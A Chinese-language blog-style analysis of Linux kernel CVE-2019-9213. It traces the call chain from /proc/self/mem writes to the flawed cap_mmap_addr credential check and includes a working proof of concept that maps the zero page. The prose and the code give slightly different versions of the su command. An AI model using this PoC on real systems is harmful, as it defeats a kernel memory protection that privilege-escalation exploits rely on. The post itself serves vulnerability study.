



# CVE-2019-9213

> Linux kernel 4.20.14 之前版本

爆出这个漏洞之后，我们可以通过看补丁patch快速找到关键部分：

可以看到Linux官方删除在此处`security_mmap_addr()`函数的调用

~~~c
static inline int security_mmap_addr(unsigned long addr)
{
	return cap_mmap_addr(addr);
}
~~~

跟踪

~~~c
int cap_mmap_addr(unsigned long addr)
{
	int ret = 0;

	if (addr < dac_mmap_min_addr) {
		ret = cap_capable(current_cred(), &init_user_ns, CAP_SYS_RAWIO,
				  SECURITY_CAP_AUDIT); //漏洞的一大核心，我们看到改函数检查的是当前的`cred`，在poc里面是执行write操作的进程的cred而不是vma被改变的进程的cred。
		/* set PF_SUPERPRIV if it turns out we allow the low mmap */
		if (ret == 0)
			current->flags |= PF_SUPERPRIV;
	}
	return ret;
}
~~~

~~~c
#ifdef CONFIG_MMU
extern unsigned long mmap_min_addr;
extern unsigned long dac_mmap_min_addr;
#else
#define mmap_min_addr		0UL
#define dac_mmap_min_addr	0UL
#endif
~~~

动态调试可以看出：

这个的值为`0x1000`，上面是对你是否可以分配一个低地址进行权限判断。

可以看到该函数的关键在于`cap_capable`函数，这个函数就是进行权限检查，这里存在缺陷。

~~~c
int cap_capable(const struct cred *cred, struct user_namespace *targ_ns,
		int cap, int audit)
{
	struct user_namespace *ns = targ_ns;

	/* See if cred has the capability in the target user namespace
	 * by examining the target user namespace and all of the target
	 * user namespace's parents.
	 */
	for (;;) {
		/* Do we have the necessary capabilities? */
		if (ns == cred->user_ns)
			return cap_raised(cred->cap_effective, cap) ? 0 : -EPERM;

		/*
		 * If we're already at a lower level than we're looking for,
		 * we're done searching.
		 */
		if (ns->level <= cred->user_ns->level)
			return -EPERM;

		/* 
		 * The owner of the user namespace in the parent of the
		 * user namespace has all caps.
		 */
		if ((ns->parent == cred->user_ns) && uid_eq(ns->owner, cred->euid))
			return 0;

		/*
		 * If you have a capability in a parent user ns, then you have
		 * it over all children user namespaces as well.
		 */
		ns = ns->parent;
	}

	/* We never get here */
}
~~~

到这里，我们要先回溯一下，什么时候调用了漏洞函数，直接查看`expand_downwards`函数的引用就可以知道是在这里

~~~c
ret = get_user_pages_remote(current, bprm->mm, pos, 1, gup_flags,
			&page, NULL, NULL);
~~~

然后回去看师傅写的`漏洞pattern`就很明白

> cap_capable函数在检查权限时存在缺陷，在跨进程的条件下，只检测当前进程的权限，使得可以通过两个进程来绕过security_mmap_addr函数。 在get_user_pages_remote函数中存在进程调度，能够跨进程调用到security_mmap_addr函数。

具体追溯到那个执行函数，我们就要看`poc`了。。。

~~~c
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

int main(void) {
	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
        if (addr != 0x10000)
                err(2,"mmap failed");
        int fd = open("/proc/self/mem",O_RDWR);
        if (fd == -1)
                err(2,"open mem failed");
        char cmd[0x100] = {0};
        sprintf(cmd, "su >&%d < /dev/null", fd);
        while (addr)
        {
                addr -= 0x1000;
                if (lseek(fd, addr, SEEK_SET) == -1)
                        err(2, "lseek failed");
                system(cmd);
        }
        printf("contents:%s\n",(char *)1);
}
~~~

可以看到，poc里面执行了一个cmd命令`LD_DEBUG=help su 1>&%d`,这tmd我也不知道啥意思，找了找发现是`向/proc/self/mem中写入了数据`。这部分的关键在于通过它调用了`write`函数。

~~~c
static ssize_t mem_write(struct file *file, const char __user *buf,
			 size_t count, loff_t *ppos)
{
	return mem_rw(file, (char __user*)buf, count, ppos, 1);
}
~~~

跟踪其操作：

~~~c
static ssize_t mem_rw(struct file *file, char __user *buf,
			size_t count, loff_t *ppos, int write)
{
	struct mm_struct *mm = file->private_data;
	unsigned long addr = *ppos;
	ssize_t copied;
	char *page;
	unsigned int flags;

	if (!mm)
		return 0;

	page = (char *)__get_free_page(GFP_KERNEL);
	if (!page)
		return -ENOMEM;

	copied = 0;
	if (!mmget_not_zero(mm))
		goto free;

	flags = FOLL_FORCE | (write ? FOLL_WRITE : 0);

	while (count > 0) {
		int this_len = min_t(int, count, PAGE_SIZE);

		if (write && copy_from_user(page, buf, this_len)) {
			copied = -EFAULT;
			break;
		}

		this_len = access_remote_vm(mm, addr, page, this_len, flags);
		if (!this_len) {
			if (!copied)
				copied = -EIO;
			break;
		}

		if (!write && copy_to_user(buf, page, this_len)) {
			copied = -EFAULT;
			break;
		}

		buf += this_len;
		addr += this_len;
		copied += this_len;
		count -= this_len;
	}
	*ppos = addr;

	mmput(mm);
free:
	free_page((unsigned long) page);
	return copied;
}
~~~

到这里终于看见我们最熟悉的`copy_from_user`系列操作了。

在while循环中，如果是写首先通过copy_from_user函数将待写内容buf拷贝到分配的page中，然后调用access_remote_vm函数写入远程进程。读则相反，先调用access_remote_vm函数读取远程进程中的数据，然后调用copy_to_user函数将读取的page拷贝到buf中。

关键就在于`access_remote_vm`函数了。我们不断跟入，看什么时候执行了`expand_downwards`函数

可以看到write里面确实执行了相关函数，这里说一下：

~~~c
long get_user_pages_remote(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas, int *locked)
{
	return __get_user_pages_locked(tsk, mm, start, nr_pages, pages, vmas,
				       locked,
				       gup_flags | FOLL_TOUCH | FOLL_REMOTE);
}
~~~

我们可以看出他的封装性。

* `get_user_pages_remote`函数和`get_user_page`函数的区别在于是否跨进程，同时也都是`__get_user_pages_locked`函数的封装，其作用就很直白：查找相关虚拟地址返回固定到的物理页。

拿到相关物理页然后就通过`kmap`函数，将page映射到永久内存映射区。如果是写操作则调用copy_to_user_page函数之后调用set_page_dirty_lock函数将page设置为脏，读操作则调用copy_from_user_page函数。之后调用kunmap函数取消映射。

get_user_pages_remote函数调用__get_user_pages_locked函数时设置了FOLL_REMOTE标志区分。（看函数的相关参数有这个标识）可以看到关键代码区别就是这个了。

那么我们就具体分析一下这个函数`__get_user_pages_locked`：

> 这里提一点，千万别过去陷入细节，Linux源代码过于庞大，我们只知道了某些函数的作用是什么的就好，不要过于纠结里面的实现。

~~~c
static __always_inline long __get_user_pages_locked(struct task_struct *tsk,
						struct mm_struct *mm,
						unsigned long start,
						unsigned long nr_pages,
						struct page **pages,
						struct vm_area_struct **vmas,
						int *locked,
						unsigned int flags)
{
	long ret, pages_done;
	bool lock_dropped;

	if (locked) {
		/* if VM_FAULT_RETRY can be returned, vmas become invalid */
		BUG_ON(vmas);
		/* check caller initialized locked */
		BUG_ON(*locked != 1);
	}

	if (pages)
		flags |= FOLL_GET;

	pages_done = 0;
	lock_dropped = false;
	for (;;) {
		ret = __get_user_pages(tsk, mm, start, nr_pages, flags, pages,
				       vmas, locked);
		if (!locked)
			/* VM_FAULT_RETRY couldn't trigger, bypass */
			return ret;

		/* VM_FAULT_RETRY cannot return errors */
		if (!*locked) {
			BUG_ON(ret < 0);
			BUG_ON(ret >= nr_pages);
		}

		if (!pages)
			/* If it's a prefault don't insist harder */
			return ret;

		if (ret > 0) {
			nr_pages -= ret;
			pages_done += ret;
			if (!nr_pages)
				break;
		}
		if (*locked) {
			/*
			 * VM_FAULT_RETRY didn't trigger or it was a
			 * FOLL_NOWAIT.
			 */
			if (!pages_done)
				pages_done = ret;
			break;
		}
		/* VM_FAULT_RETRY triggered, so seek to the faulting offset */
		pages += ret;
		start += ret << PAGE_SHIFT;

		/*
		 * Repeat on the address that fired VM_FAULT_RETRY
		 * without FAULT_FLAG_ALLOW_RETRY but with
		 * FAULT_FLAG_TRIED.
		 */
		*locked = 1;
		lock_dropped = true;
		down_read(&mm->mmap_sem);
		ret = __get_user_pages(tsk, mm, start, 1, flags | FOLL_TRIED,
				       pages, NULL, NULL);//如果没有退出,nr_pages-1，pages_done+1，start地址加一个PAGE_SIZE重新开始固定。
		if (ret != 1) {
			BUG_ON(ret > 1);
			if (!pages_done)
				pages_done = ret;
			break;
		}
		nr_pages--;
		pages_done++;
		if (!nr_pages)
			break;
		pages++;
		start += PAGE_SIZE;
	}
	if (lock_dropped && *locked) {
		/*
		 * We must let the caller know we temporarily dropped the lock
		 * and so the critical section protected by it was lost.
		 */
		up_read(&mm->mmap_sem);
		*locked = 0;
	}
	return pages_done;
}
~~~

整体来看就是将`start`开始的`nr_pages`个页固定到`pages`。__get_user_pages函数返回值大于0说明调用成功，减少nr_pages增加pages_done，nr_pages为0则退出循环。可以看到循环里面可能是一个循环固定两个页，可以看注释。

那么对于`__get_user_pages`函数查找到，代码好长：

> https://elixir.bootlin.com/linux/v4.20.13/source/mm/gup.c#L674

总结一下：

我们可以看到虚拟地址空间的确定是通过`find_extend_vma`函数实现

~~~c

struct vm_area_struct *
find_extend_vma(struct mm_struct *mm, unsigned long addr)
{
	struct vm_area_struct *vma, *prev;

	addr &= PAGE_MASK;
	vma = find_vma_prev(mm, addr, &prev);
	if (vma && (vma->vm_start <= addr))
		return vma;
	if (!prev || expand_stack(prev, addr))
		return NULL;
	if (prev->vm_flags & VM_LOCKED)
		populate_vma_page_range(prev, addr, prev->vm_end, NULL);
	return prev;
}
~~~

那么可以看到`expand_stack`函数的调用，这就对应了我们之前的函数追踪过程。分析一下：

* 如果`vma->vm_start`小于等于`addr`，那么我们就返回相关的虚拟地址,这也说明addr在vma空间范围内。
* 如果不在的话，那么说明addr落在地址空洞里面，这时候如果设置了`VM_GROWSDOWN`标志位，那么调用`expand_stack`函数扩展vma，这是我们想要的。

完整调用链：mem_write -> mem_rw -> access_remote_vm -> __access_remote_vm -> get_user_pages_remote -> __get_user_pages_locked -> __get_user_pages -> find_extend_vma -> expand_stack -> expand_downwards -> security_mmap_addr -> cap_mmap_addr

从头到尾其实也是这个调用链逐步深入的过程。

`poc分析总结：`

* 其核心在于system在执行过程中会通过fork调用子进程，如果我们通过system函数调用LD_DEBUG=help su 1>&%d命令执行write操作，该函数检测的current_cred()就是执行write的进程的cred，而不是vma被改变的进程的cred。而且write操作是root的。
* 我们需要顺利执行`get_user_pages_retmote`函数，因为只有它成功执行了，`maddr = kmap(page);`才会被调用，我们才可以将地址映射出来

1. POC中，我们首先通过`lseek`使得文件指针执行用户不可访问的区域
2. 通过system()调用子进程实现调用`write`操作使得权限提升为root的进程里面绕过安全检查，内存被成功映射。
3. 在子进程结束后，内存映射已经完成，我们可以实现0地址映射。(nice)

